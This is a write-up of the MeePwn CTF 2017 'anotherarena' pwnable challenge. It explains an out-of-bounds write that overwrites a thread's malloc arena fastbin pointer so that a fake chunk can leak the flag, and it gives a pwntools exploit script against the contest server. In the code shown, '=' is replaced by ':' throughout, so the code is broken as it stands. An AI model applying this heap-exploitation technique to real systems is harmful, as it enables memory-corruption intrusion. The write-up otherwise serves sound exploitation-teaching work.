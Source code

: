 ```yaml
---
type: ctf
title : MeePwn CTF 2017 - anotherarena
tags: [MeePwn CTF, anotherarena]
date : 2017-07-16
author: Eno Leriand
featuredImage: https://ctftime.org/media/team/Screen_Shot_2018-07-18_at_16.01.56.png
---
```


**Category:** Pwnable

64 bit ELF, Partial RELRO, canary & NX enabled, No PIE.  


The program is a simple crackme program with multi-thread. First, the program will read the FLAG into a global buffer `flag` . Then, it will ask us to input the size of a buffer. Later the program will use a thread to malloc a buffer `buf` with the given size. Then the program will use another thread to do the following:  
* Ask for a 4 byte data and treat it as `index`
* Ask for a 4 byte data, and store it at `buf[index]`
* Repeat


It will repeat `given_size / 4` times. If the input `index` is larger than the given size, it will also break out the loop. Basically it just letting us input a bunch of integers to the `buf` buffer.  


After that the program will do the following:
```c
/* add all integers in buf to v5*/
for ( i : 0; i < LODWORD(g_size[0]); i += 4 )
    v5 += *(int *)((char *)g_heap_buf + (signed int)i);

/* read size and allocate a buffer ( for license) */
size : read_int();
lic : malloc((unsigned int)size);
/* read to lic */
read(0, lic, (unsigned int)size);
/* crackme check*/
if ( v5 == 3233853430 )
    printf("Good boy! Your license: %s\n", lic);
else
    puts("Bad b0y!");
exit(0);
```

So, to solve this challenge, we'll have to:
* Pass the crackme check ( this is easy )
* **Locate the `lic` buffer at ( or near ) the `flag` buffer**, so later we can leak the flag by print out the license content. We'll focus on this one.


First of all the program has a out-of-bound write vulnerability: by input a **negative** `index`, we can overwrite the data at `buf[-XXX]`.  

Before we use this vulnerability to exploit the service, we'll have to understand how the malloc work in different thread. When a thread wants to malloc a buffer, it will use its own `arena` structure, a data structure which stores the malloc state of that thread ( check out the [source code](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#1648) ). The `arena` structure will also store the fastbin chunks' address ( the `fastbinsY[NFASTBINS]` member ). 

If we can control `fastbinsY[NFASTBINS]`, we'll be able to malloc a fastbin chunk at any address ( theoretically, since we'll still need to bypass some check in malloc ). By using gdb, we can locate the thread `arena`'s address is at `buf - 0x8a0`, making us able to use the OOB write to overwrite its data structure.

Now we'll have to choose our fake chunk's location. I decided to choose the address `0x6020bd`: 

```
gdb-peda$ x/2gx 0x6020bd
0x6020bd:       0xfff7bb5540000000      0x000000000000007f   <-- fake fastbin chunk ( size : 0x70 )
```

We can see that `0x6020bd` is a good target of a fake fastbin[5] chunk ( size : 0x70 ). The `0x7f` is a part of the `stderr` address. Moreover, the `flag` is at `0x602101` ( behind the fake chunk ) , so we can just pad some chars to the allocated chunk ( pad until it reach the beginning of the flag buffer ), later when the program print out the license content, it will give us the flag as well.  

So to sum up:
1. Use the OOB write to overwrite `fastbinsY[5]`
2. Choose the fake fastbin[5] chunk target at `0x6020bd`
3. Input the data to bypass the crackme check
4. Input allocate size to make `malloc()` allocate fastbin[5] ( size : 0x70 )
5. Pad the allocated buffer until it reach the `flag` buffer
6. Print out the license and get the flag

```python exp_arena.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "139.59.241.76"
PORT : 31335
ELF_PATH : "./anotherarena_noalarm"

context.binary : ELF_PATH
context.log_level : 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal : ['tmux', 'splitw'] # for gdb.attach

elf : context.binary # context.binary is an ELF object

flag : 0x602101
fake_chunk : 0x6020bd

def write(off, data):
    r.send(p32(off))
    time.sleep(0.5)
    r.send(p32(data))
    time.sleep(0.5)

if __name__ == "__main__":
    
    r : remote(HOST, PORT)

    r.sendline("50")
    time.sleep(0.5)
    # move the offset to thread's arena + 0x30 ( fastbin[5], size=0x70 )
    # fake chunk near stderr, use its 0x7f to create fake chunk
    write(0xfffff790, fake_chunk)
    # make final answer : 3233853430
    write(0, 0x7fffffff)
    write(4, 0x40c0af8f)
    
    # break loop
    r.send(p32(100)) 
    time.sleep(0.5)
    
    # allocate buf & pad to flag
    r.sendline("104") # allocate 104 byte
    time.sleep(0.5)
    r.send("i"*0x34) # pad to flag

    r.interactive()
```

flag: `MeePwnCTF{oveRwrit3_another_(main)_arena}`

